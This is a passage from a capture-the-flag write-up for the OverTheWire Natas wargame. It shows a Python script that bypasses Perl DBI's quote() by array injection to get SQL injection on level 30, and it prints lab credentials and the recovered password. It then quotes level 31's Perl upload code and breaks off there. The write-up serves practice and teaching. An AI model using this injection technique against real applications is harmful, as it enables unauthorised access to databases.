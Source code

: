 ```perl
```

Here we got some *Perl* code that seems to connect to a database. It looks like a SQL Injection however, we need to find a way to bypass the *quote()* method. As per the documentation *quote()* escape any special characters (such as quotation marks) contained within the string.

Luckily, the *quote()* method is vulnerable to array injection. If you pass an array into this method, it will be treated as parameters. We'll need to write a Python script to inject an array.

```python
import requests

url = "http://natas30.natas.labs.overthewire.org/index.pl"

s = requests.Session()
s.auth = ('natas30', 'wie9iexae0Daihohv8vuu3cei9wahf0e')

args = { "username": "natas31", "password": ["'' or 1", 2] }
r = s.post(url,  data=args)
print (r.text)
```

Bingo !

```text
hay7aecuungiuKaezuathuk9biin0pu1
```

## Natas 31 Solution

**URL :** [http://natas31.natas.labs.overthewire.org](http://natas31.natas.labs.overthewire.org) <br/>
**Credentials :** *natas31:hay7aecuungiuKaezuathuk9biin0pu1*

Here is the Perl code for this challenge :

```perl
f ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    print '<table class="sortable table table-hover table-striped">';
    $i=0;
    while (<$file>) {
        my @elements=split /,/, $_;

        if($i==0){ # header
            print "<tr>";
            foreach(@elements){
                print "<th>".$cgi->escapeHTML($_)."</th>";   
            }
            print "</tr>";
        }
        else{ # table content
            print "<tr>";
            foreach(@elements){
                print "<td>".$cgi->escapeHTML($_)."</td>";   
            }
            print "</tr>";
        }
        $i+=1;
    }
    print '</table>';
}
else{
print <<END;
```
